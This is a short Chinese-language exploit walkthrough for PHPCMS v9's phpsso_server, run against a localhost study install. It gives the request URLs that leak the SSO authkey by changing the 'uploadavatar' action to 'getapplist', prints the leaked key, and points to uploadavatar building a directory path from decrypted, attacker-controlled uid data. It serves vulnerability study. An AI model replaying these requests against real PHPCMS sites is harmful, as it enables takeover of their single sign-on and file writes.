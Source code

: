 拿到这个：

aHR0cDovL2xvY2FsaG9zdDo4MDM4L3N0dWR5L3BocGNtcy9waHBzc29fc2VydmVyL2luZGV4LnBocD9tPXBocHNzbyZjPWluZGV4JmE9dXBsb2FkYXZhdGFyJmF1dGhfZGF0YT12PTEmYXBwaWQ9MSZkYXRhPWU1YzJWQU1HVVFaUkFRa0lVUVFLVndGVUFnSUNWZ0FJQWxkVkJRRkREUVZjVjBNVVFHa0FReFZaWmxNRUdBOSUyQkRqWm9LMUFIUm1Vd0JHY09YVzVVRGdRaEpEeGFlUVZuR0FkeFZSY0tRQQ==

解除 base64_decode 编码得

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=uploadavatar&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

将 url 里的 uploadavatar 换成：getapplist 得：

[`localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA`](http://localhost:8038/study/phpcms/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=e5c2VAMGUQZRAQkIUQQKVwFUAgICVgAIAldVBQFDDQVcV0MUQGkAQxVZZlMEGA9%2BDjZoK1AHRmUwBGcOXW5UDgQhJDxaeQVnGAdxVRcKQA)

访问得：

a:1:{i:1;a:9:{s:5:"appid";s:1:"1";s:4:"type";s:9:"phpcms_v9";s:4:"name";s:9:"phpcms v9";s:3:"url";s:35:"[`localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}}`](http://localhost:8038/study/phpcms/";s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr";s:2:"ip";s:0:"";s:11:"apifilename";s:17:"api.php?op=phpsso";s:7:"charset";s:3:"gbk";s:8:"synlogin";s:1:"1";}})

和我们想的一样，authkey 在里面：

s:7:"authkey";s:32:"L7UXO1cpUV6QmkX0oeGAXiOdQy6Hmvkr"

拿到这个 key 已经可以想做什么想什么了，sso 体系里的东西都可以做了。

```php
解密出来的东西不受控制，可以包含 null 截断，也可以包含单双引号 
```

举个例子：

/phpcms/phpsso_server/phpcms/modules/phpsso/index.php

内：

public function uploadavatar()

写的

$this->uid = $this->data['uid']; //uid 来自解密出来的 uid

$this->avatardata = $this->data['avatardata']; //数据内容来自解密出来的数据内容

……

$dir = $avatarfile.$dir1.'/'.$dir2.'/'.$this->uid.'/';

//目录名里引用了来自解密内容的 uid
